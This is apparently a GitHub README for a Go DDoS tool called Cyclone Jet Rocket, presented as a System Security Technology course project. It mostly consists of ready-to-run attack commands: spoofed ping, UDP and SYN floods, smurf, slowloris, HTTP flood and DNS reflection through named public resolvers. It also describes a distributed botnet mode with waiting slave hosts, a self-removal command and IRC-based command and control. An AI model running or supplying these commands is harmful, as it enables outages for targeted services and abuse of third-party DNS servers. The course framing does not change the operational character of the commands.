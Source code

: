 # Cyclone Jet Rocket

Cyclone Jet Rocket is a DDoS tool for System Security Technology course.

This DDoS tool provides more than 8 kinds of attack methods, each in one module, with different parameters each module. The abstraction of Layers is inspired from [gopacket](https://github.com/google/gopacket), but reimplemented by myself.

## Install

```
go get github.com/crazyboycjr/cyclone-jet-rocket
go build -o $GOPATH/bin/cjr github.com/crazyboycjr/cyclone-jet-rocket
sudo setcap cap_net_raw+ep $GOPATH/bin/cjr
```

## Usage

stand-alone mode
```
cjr --help
cjr --list-module
cjr --module ping-flood help
cjr -m ping-flood --spoof 192.168.1.0/24 --destination 192.168.1.3 --rate 100/ms -c 100000 --size 1472
cjr -m udp-flood -s 192.168.0.0/16 -d 192.168.1.3 -p 80 -p 22 -p 8000:9000 -r nolimit --size 1200
cjr -m smurf --broadcast 192.168.1.255 -d 192.168.1.3 -c 1000 --size 1000
cjr -m syn-flood -s 192.168.2.0/24 -d 192.168.1.3 -p 80 -r 100/s
cjr -m slowloris --url http://www.example.com --request GET -c 100 -r 1/s --timeout 10
cjr -m slowloris -u http://www.example.com -X POST -c 100 -r 10/s -t 20
cjr -m rdns --target 192.168.1.3 --dns 202.120.224.6:53 --dns 61.129.42.6:53 --dns 114.114.114.114:53 -c 1000 -r 10/s
cjr -m rdns --target 192.168.1.3 -f dns_servers.txt -c 1000 -r 10/s --question www.example.com
cjr -m land -d 192.168.1.3 -p 80 -r 10/s
cjr -m http-flood -u http://www.example.com -X POST -c 100 -r 10/s
```

distributed mode
```
cjr --dist help
cjr -D --wait # only slave host use this command to wait for commands
cjr -D --list-bots
cjr -D -m syn-flood -s 10.0.0.0/8 -d 10.123.123.123 -p 80 -r 10/s
cjr -D --stop
cjr -D --uninstall # this command will terminate the process on slave host and remove the executable file
```

For convenience, we can also join the IRC channel to give the order. Something like below
```
irssi
/connect Freenode
/join cjr-random
!list
!module rdns --target 192.168.1.3 --dns 202.120.224.6:53 -c 1000 -r 10/s
!stop
```

## Dependencies

- Go version 1.8 or above
- [go-flags](https://github.com/jessevdk/go-flags)
- [go-ircevent](https://github.com/thoj/go-ircevent)
